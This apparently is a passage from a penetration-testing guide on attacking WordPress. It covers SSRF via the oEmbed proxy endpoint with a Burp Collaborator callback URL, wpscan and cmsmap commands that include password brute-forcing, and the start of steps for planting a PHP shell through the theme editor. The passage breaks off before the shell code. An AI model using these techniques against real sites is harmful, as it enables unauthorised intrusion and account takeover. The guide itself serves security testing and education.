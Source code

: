 ### /wp-json/oembed/1.0/proxy - SSRF

Try to access [https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net](https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net) and the Worpress site may make a request to you.

This is the response when it doesn't work:

![](<../../.gitbook/assets/image (184).png>)

### SSRF

{% embed url="https://github.com/t0gu/quickpress/blob/master/core/requests.go" caption="" %}

This tool checks if the **methodName: pingback.ping** and for the path **/wp-json/oembed/1.0/proxy** and if exists, it tries to exploit them.

### Automatic Tools

```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"
```

## **Panel RCE**

#### **Modifying a php from the theme used (admin credentials needed)**

Appearance → Editor → 404 Template (at the right)

Change the content for a php shell:

